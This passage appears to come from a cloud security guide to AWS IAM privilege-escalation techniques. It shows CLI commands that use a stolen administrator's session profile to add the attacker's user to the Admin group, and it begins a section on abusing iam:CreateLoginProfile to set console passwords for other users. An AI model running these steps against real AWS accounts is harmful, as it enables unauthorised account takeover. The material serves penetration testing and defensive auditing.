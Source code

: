 After adding the session credentials to a new AWS profile (named gkleijn-stolen in the example below), the user can now impersonate the gkleijn account. Since gkleijn was an administrator in the AWS account, the user can now add their own user account to the Admin group:

```bash
➜ aws iam add-user-to-group --group-name Admin --user-name privesc_test --profile gkleijn-stolen
➜ aws iam list-groups-for-user --user-name privesc_test --profile privesc
```

```json
{
    "Groups": [
        {
            "Path": "/",
            "CreateDate": "2019-03-15T23:00:11Z",
            "GroupId": "AGPAIITMF2Y2RVSGQCWQE",
            "Arn": "arn:aws:iam::[REDACTED]:group/privesc4",
            "GroupName": "privesc4"
        },
        {
            "Path": "/",
            "CreateDate": "2019-10-11T16:22:31Z",
            "GroupId": "AGPAS4WERQEFLF6A2LYFQ",
            "Arn": "arn:aws:iam::[REDACTED]:group/Admin",
            "GroupName": "Admin"
        }
    ]
}
```

## 05 - iam:CreateLoginProfile

### Description
Users with the iam:CreateLoginProfile on other users can set a console login password for those users if they don't have one set yet.

### Requirements
The user needs to have the permission on other users.
The target user cannot have a console login password currently configured. This means that targets of this attack will most likely be service accounts.

### Example
In this example, our attacker is part of a single group. The group has one permission, which allows iam:CreateLoginProfile on a single user VulnAdmin:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "VisualEditor0",
      "Effect": "Allow",
      "Action": "iam:CreateLoginProfile",
      "Resource": "arn:aws:iam::[REDACTED]:user/VulnAdmin"
    }
  ]
}
```
